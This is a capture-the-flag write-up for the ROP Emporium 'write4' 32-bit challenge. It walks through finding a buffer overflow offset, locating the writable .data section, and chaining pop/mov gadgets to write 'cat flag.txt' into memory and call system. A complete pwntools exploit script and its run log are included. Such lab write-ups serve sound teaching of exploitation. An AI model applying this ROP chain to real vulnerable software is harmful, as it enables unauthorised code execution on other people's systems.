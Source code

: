 ## Write4

### Challenge Description : Find and manipulate gadgets to construct an arbitrary write primitive and use it to learn where and how to get your data into process memory.

---

### HINT : On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string "/bin/cat flag.txt" is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

---

So, our target for this challenge, is to write the string "cat flag.txt" somewhere in the memory and use that string to pass it to the system function, so that it is called. 

---

The first step as all ways, is checking the security, finding the vuln (in this case buffer overflow).

Since, we do the same step as all ways, I had to automate it

```
def get_offset32(elf):
    io = process(elf.path)
    io.sendline(cyclic(200))
    io.wait()
    core = io.corefile
    offset_addr = core.fault_addr
    offset = cyclic_find(offset_addr)
    info("OFFSET : %d" , offset )
    return offset
```

`get_offset32` sends a arbitrary long string to the binary, and waits for it to crash. Then, when it crashes, locates the source of the crash in the core file, which is stored at the fault address. Using the fault address, we locate the offset. 

Now, our next step is to find some location where we can write our string.

Using `readelf`, we can find all the sections in the elf, and hopefully find a section where we have write access. 

```
readelf write432 -S                                                   Sat 18 May 2019 19:54:21 IST
There are 31 section headers, starting at offset 0x196c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  ...
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001030 00002c 00  WA  0   0 32
  ...
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific
  ```
  Only the following sections have a write access. 

  I'd like to write in the .data section. 

  According to [TutorialsPoint](https://www.tutorialspoint.com/assembly_programming/assembly_memory_segments.htm) :
  ```
  Data segment − It is represented by .data section and the .bss. The .data section is used to declare the memory region, where data elements are stored for the program. This section cannot be expanded after the data elements are declared, and it remains static throughout the program.
``` 
That's perfect!

Let's check, where should we write in the `.data` section. We don't want to write over any already declared data elements. 

```
readelf write432 -x .data                     
Hex dump of section '.data':
  0x0804a028 00000000 00000000                   ........
  ```

It's empty. Perfect!

---

Now we know the what, and the where. The last and the most important one How?

We need gadgets to do that for us. Hence, `ROPGadget` comes into the picture. Since we can only write to the stack, and we need to mov the data into `.data` section, we are looking for gadgets with `pop` or `mov` instruction. 

```
ROPgadget --binary write432 --only "nop|mov|pop|ret"      243ms  Sat 18 May 2019 20:27:10 IST
Gadgets information
============================================================
0x08048547 : mov al, byte ptr [0xc9010804] ; ret
0x08048670 : mov dword ptr [edi], ebp ; ret
0x080484b0 : mov ebx, dword ptr [esp] ; ret
0x0804866f : nop ; mov dword ptr [edi], ebp ; ret
0x080484af : nop ; mov ebx, dword ptr [esp] ; ret
0x0804866e : nop ; nop ; mov dword ptr [edi], ebp ; ret
0x080484ad : nop ; nop ; mov ebx, dword ptr [esp] ; ret
0x0804866c : nop ; nop ; nop ; mov dword ptr [edi], ebp ; ret
0x080484ab : nop ; nop ; nop ; mov ebx, dword ptr [esp] ; ret
0x0804866a : nop ; nop ; nop ; nop ; mov dword ptr [edi], ebp ; ret
0x080486db : pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483e1 : pop ebx ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
0x0804819d : ret
0x080484fe : ret 0xeac1

Unique gadgets found: 17
```

We can potentially use the gadgets `0x08048670` & `0x080486da`

`0x080486da` pops the first 4 bytes of the stack into `edi`, and pops the next 4 bytes of the stack in `ebp`

`0x08048670` moves the contents of `ebp` into the location pointed by `edi`

So, we'd like to write the address of data section into the stack, followed by a string. Then call pop_gadget, which writes the address of data into `edi` and string into `ebp`. Then call the `mov_gadget` which moves the string into data section. Do this recursively with string broken into 4bytes at a time. `ebp` & `edi` both hold 4bytes. 


At last, call the system function with the string in data section as our argument. 

exploit.py
```
from pwn import *

def get_offset32(elf):
    io = process(elf.path)
    io.sendline(cyclic(200))
    io.wait()
    core = io.corefile
    offset_addr = core.fault_addr
    offset = cyclic_find(offset_addr)
    info("OFFSET : %d" , offset )
    return offset



elf = context.binary = ELF("write432")
offset = get_offset32(elf)

data_section = elf.get_section_by_name(".data").header.sh_addr
info(".data : %#x",data_section)
data_section = data_section

system = elf.symbols.system
info("System : %#x",system)

mov_gadget = p32(0x08048670)
pop_gadget = p32(0x080486da)

instruction = "cat flag.txt"

payload = 'A'*offset
payload += pop_gadget
payload += p32(data_section)
payload += instruction[0:4]
payload += mov_gadget

payload += pop_gadget
payload += p32(data_section+4)
payload += instruction[4:8]
payload += mov_gadget

payload += pop_gadget
payload += p32(data_section+8)
payload += instruction[8:12]
payload += mov_gadget

payload += p32(system)
payload += "JUNK"
payload += p32(data_section)

io = process(elf.path)
io.recvuntil('>')
io.sendline(payload)
flag = io.recvline()
success("FLAG : %s", flag)
```

OUTPUT

```
[*] '/ropemporium/write4_SOLVED/again/write432'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[x] Starting local process '/ropemporium/write4_SOLVED/again/write432'
[+] Starting local process '/ropemporium/write4_SOLVED/again/write432': pid 18033
[*] Process '/ropemporium/write4_SOLVED/again/write432' stopped with exit code -11 (SIGSEGV) (pid 18033)
[x] Parsing corefile...
[*] '/ropemporium/write4_SOLVED/again/core.18033'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xffe94ae0
    Exe:       '/ropemporium/write4_SOLVED/again/write432' (0x8048000)
    Fault:     0x6161616c
[+] Parsing corefile...: Done
[*] OFFSET : 44
[*] .data : 0x804a028
[*] System : 0x8048430
[x] Starting local process '/ropemporium/write4_SOLVED/again/write432'
[+] Starting local process '/ropemporium/write4_SOLVED/again/write432': pid 18050
[+] FLAG :  ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/ropemporium/write4_SOLVED/again/write432' (pid 18050)
```

